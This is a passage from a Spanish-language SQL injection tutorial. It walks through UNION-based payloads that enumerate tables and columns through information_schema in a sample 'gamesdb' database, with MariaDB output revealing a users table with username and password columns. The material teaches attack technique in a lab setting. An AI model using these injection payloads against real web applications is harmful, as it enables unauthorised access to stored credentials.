 ```sql
| EVENTS                                               |
| FILES                                                |
| GLOBAL_STATUS                                        |
| GLOBAL_VARIABLES                                     |
| KEYWORDS                                             |
| KEY_CACHES                                           |
| KEY_COLUMN_USAGE                                     |
```

Es por ello que hay que indicar la base de datos a la cual se  quiere acceder, la cual se guarda en la columna `table_schema` quedando la query final de la siguiente manera `' union select group_concat(table_name),2 from information_schema.tables where table_schema='gamesdb'-- -`.

```sql
MariaDB [(none)]> select table_name,table_schema from information_schema.tables where table_schema='gamesdb';
+------------+--------------+
| table_name | table_schema |
+------------+--------------+
| users      | gamesdb      |
| games      | gamesdb      |
+------------+--------------+
2 rows in set (0,000 sec)
```

![img](/assets/img/sqli/table_name.png)

Ahora sabemos que hay una tabla con el nombre `users` que llama mucho la atención. Teniendo esta información, ahora habría que conocer las columnas de dicha tabla. Para ello, habría que mirar la columna `column_name` de la tabla `columns`, que es donde se guardan todas las columnas de todas las tablas de todas las bases de datos. Es por ello que, nuevamente, hay que filtrar no solo por la base de datos sino también por la tabla a la cual se quiere acceder, quedando la consulta tal que así `' union select group_concat(column_name),2 from information_schema.columns where table_schema='gamesdb' and table_name='users'-- -`. 

```sql
MariaDB [gamesdb]> select column_name from information_schema.columns where table_schema='gamesdb' and table_name='users';
+-------------+
| column_name |
+-------------+
| id          |
| username    |
| password    |
+-------------+
3 rows in set (0,001 sec)
```

![img](/assets/img/sqli/column_name.png)
